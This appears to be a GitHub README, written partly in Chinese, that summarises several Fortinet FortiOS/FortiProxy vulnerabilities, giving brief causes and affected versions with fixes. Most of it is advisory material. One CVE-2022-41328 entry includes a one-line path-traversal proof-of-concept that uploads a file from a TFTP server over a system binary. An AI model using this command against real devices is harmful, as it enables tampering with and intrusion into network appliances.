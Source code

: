 # CVE-2024-21762

http chunk 处理中产生的漏洞

### Affected Products

ortiOS 7.4		   7.4.0 through 7.4.2		Upgrade to 7.4.3 or above
FortiOS 7.2		   7.2.0 through 7.2.6		Upgrade to 7.2.7 or above
FortiOS 7.0		   7.0.0 through 7.0.13		Upgrade to 7.0.14 or above
FortiOS 6.4		   6.4.0 through 6.4.14		Upgrade to 6.4.15 or above
FortiOS 6.2		   6.2.0 through 6.2.15		Upgrade to 6.2.16 or above
FortiOS 6.0		   6.0.0 through 6.0.17		Upgrade to 6.0.18 or above
FortiProxy 7.4	7.4.0 through 7.4.2		  Upgrade to 7.4.3 or above
FortiProxy 7.2	7.2.0 through 7.2.8		  Upgrade to 7.2.9 or above
FortiProxy 7.0	7.0.0 through 7.0.14	  Upgrade to 7.0.15 or above
FortiProxy 2.0	2.0.0 through 2.0.13	  Upgrade to 2.0.14 or above
FortiProxy 1.2	1.2 all versions			  Migrate to a fixed release
FortiProxy 1.1	1.1 all versions			  Migrate to a fixed release
FortiProxy 1.0	1.0 all versions			  Migrate to a fixed release

# CVE-2023-27997

漏洞点：/remote/hostcheck_validate，位于对enc参数的处理过程中，会造成越界读写

### Affected Products

FortiOS-6K7K version 7.0.10
FortiOS-6K7K version 7.0.5
FortiOS-6K7K version 6.4.12
FortiOS-6K7K version 6.4.10
FortiOS-6K7K version 6.4.8
FortiOS-6K7K version 6.4.6
FortiOS-6K7K version 6.4.2
FortiOS-6K7K version 6.2.9 through 6.2.13
FortiOS-6K7K version 6.2.6 through 6.2.7
FortiOS-6K7K version 6.2.4
FortiOS-6K7K version 6.0.12 through 6.0.16
FortiOS-6K7K version 6.0.10
FortiProxy version 7.2.0 through 7.2.3
FortiProxy version 7.0.0 through 7.0.9
FortiProxy version 2.0.0 through 2.0.12
FortiProxy 1.2 all versions
FortiProxy 1.1 all versions
FortiOS version 7.2.0 through 7.2.4
FortiOS version 7.0.0 through 7.0.11
FortiOS version 6.4.0 through 6.4.12
FortiOS version 6.2.0 through 6.2.13
FortiOS version 6.0.0 through 6.0.16
FortiSASE is no longer impacted, issue remediated Q2/23

# CVE-2022-42475

对http请求中的Content-Length中的内存分配时，会造成符号扩展，从而造成崩溃。

### Affected Products

FortiOS version 7.2.0 through 7.2.2
FortiOS version 7.0.0 through 7.0.8
FortiOS version 6.4.0 through 6.4.10
FortiOS version 6.2.0 through 6.2.11
FortiOS version 6.0.0 through 6.0.15
FortiOS version 5.6.0 through 5.6.14
FortiOS version 5.4.0 through 5.4.13
FortiOS version 5.2.0 through 5.2.15
FortiOS version 5.0.0 through 5.0.14
FortiOS-6K7K version 7.0.0 through 7.0.7
FortiOS-6K7K version 6.4.0 through 6.4.9
FortiOS-6K7K version 6.2.0 through 6.2.11
FortiOS-6K7K version 6.0.0 through 6.0.14
FortiProxy version 7.2.0 through 7.2.1
FortiProxy version 7.0.0 through 7.0.7
FortiProxy version 2.0.0 through 2.0.11
FortiProxy version 1.2.0 through 1.2.13
FortiProxy version 1.1.0 through 1.1.6
FortiProxy version 1.0.0 through 1.0.7


# CVE-2021-44168

A download of code without integrity check vulnerability [CWE-494] in the "execute restore src-vis" command of FortiOS may allow a local authenticated attacker to download arbitrary files on the device via specially crafted update packages.

### Affected Products

FortiOS versions 6.0.13 and below,
FortiOS versions 6.2.9 and below,
FortiOS versions 6.4.7 and below,
FortiOS versions 7.0.2 and below.

# CVE-2022-41328

Path traversal in execute command

### poc

```
execute wireless-controller hs20-icon upload-icon tftp ../../../../../../bin/lspci <TA TFTP Server>
```

### Affected Products

FortiOS version 7.2.0 through 7.2.3
FortiOS version 7.0.0 through 7.0.9
FortiOS version 6.4.0 through 6.4.11
FortiOS version 6.2.0 through 6.2.13
FortiOS 6.0 all versions

# 资料

https://www.fortiguard.com/psirt?page=1&date=&severity=5&product=&component=&version=
